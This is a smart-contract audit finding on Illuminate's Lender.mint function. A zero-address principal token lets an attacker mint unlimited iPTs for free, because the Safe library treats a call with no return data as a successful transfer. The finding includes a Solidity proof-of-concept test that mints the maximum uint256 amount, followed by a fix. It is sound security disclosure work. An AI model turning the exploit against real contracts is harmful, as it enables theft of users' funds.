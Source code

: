 kenzo

high

# Infinite minting is possible for markets who don't support all protocols

## Summary
When a market does not support all of the lending protocols, an attacker can mint infinite amount of iPTs.
This is because `Lender` does not check that the PT contract exists. So when an attacker calls `mint`, `Lender` will "transfer" PTs from the 0-address, without really checking for success, and then proceed to mint the attacker iPTs for free.

In fact, one could say that like K's Choice, the attacker would get Everything For Free.

## Vulnerability Detail
Using `Lender`'s `mint` function, the user can supply a protocol principal (eg. Notional's PTs) that `Lender` will pull, and then mint to the user the equivalent amount of iPTs.
But not all protocols might be set in a certain market. (This can be evidenced by the `setPrinicipal` [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Marketplace.sol#L209), which allows the admin to set a market at a later date. And also by the fact that evidently not all protocols have the same active markets.)
If a protocol is not set, it's principal token in Illuminate is the 0 address.
When `Lender` tries to pull tokens from the user (using `Safe` library), a call to the 0 address wouldn't revert, so `Lender` would think that the transfer succeeded.
It will then proceed to mint to the user (attacker?) the corresponding amount of iPTs that the user supplied as parameter - even though in actuality the user hasn't sent any tokens.

## Impact
A user can mint infinite (or arbitrary) amount of iPTs for free.
He can then proceed to dump them on the market and make their value 0, or redeem them later, or mint them just before a market matures - and then redeem them for the underlying, on the expense of other users.

## Code Snippet
`Lender`'s `mint` [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270) takes any `p` as input. It then tries to pull the tokens from the user using `Safe`, and proceeds to mint the corresponding amount of iPTs.
```solidity
    function mint(uint8 p, address u, uint256 m, uint256 a) external unpaused(u, m, p) returns (bool) {
        address principal = IMarketPlace(marketPlace).token(u, m, p);
        Safe.transferFrom(IERC20(principal), msg.sender, address(this), a);
        IERC5095(principalToken(u, m)).authMint(msg.sender, a);
        emit Mint(p, u, m, a);
        return true;
    }
```
`Safe.transferFrom` [will return true](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/lib/Safe.sol#L114:#L115) if there was no return data:
```solidity
                // There was no return data.
                result := 1
```
Therefore, Illuminate will think `transferFrom` has succeeded and will proceed to mint the attacker the amount of tokens he supplied as parameter.

## Proof of Concept
You can add the following test to `fork/Lender.t.sol` to see that when a market is not set, an attacker can mint infinite amount of iPTs.
```solidity
    // Based on deployMarket but with empty Notional prinicipal
    function deployMarketWithEmptyPrincipal(address u) internal {
        l.setMarketPlace(address(mp));
        // Create a market
        address[8] memory contracts;
        contracts[0] = Contracts.SWIVEL_TOKEN; // Swivel
        contracts[1] = Contracts.YIELD_TOKEN; // Yield
        contracts[2] = Contracts.ELEMENT_TOKEN; // Element
        contracts[3] = Contracts.PENDLE_TOKEN; // Pendle
        contracts[4] = Contracts.TEMPUS_TOKEN; // Tempus
        contracts[5] = Contracts.SENSE_TOKEN; // Sense
        contracts[6] = Contracts.APWINE_TOKEN; // APWine
        contracts[7] = address(0); // Empty principal for Notional

        mp.createMarket(
            u,
            maturity,
            contracts,
            'TEST-TOKEN',
            'TEST',
            Contracts.ELEMENT_VAULT,
            Contracts.APWINE_ROUTER
        );
    }

    function testInfiniteMintWithEmptyPrincipal() public {
        deployMarketWithEmptyPrincipal(Contracts.USDC);

        // Run cheats/approvals
        runCheatcodes(Contracts.USDC);

        uint256 wowMuchTokensBigAmount = type(uint256).max;

        l.mint(uint8(8), Contracts.USDC, maturity, wowMuchTokensBigAmount);

        address ipt = mp.markets(Contracts.USDC, maturity, 0);
        assertEq(wowMuchTokensBigAmount, IERC20(ipt).balanceOf(msg.sender));
    }
```

## Tool used
Manual Review

## Recommendation
In `Lender`'s `mint`, do not allow minting if the PT is address 0 (= if the protocol is not set for this market.)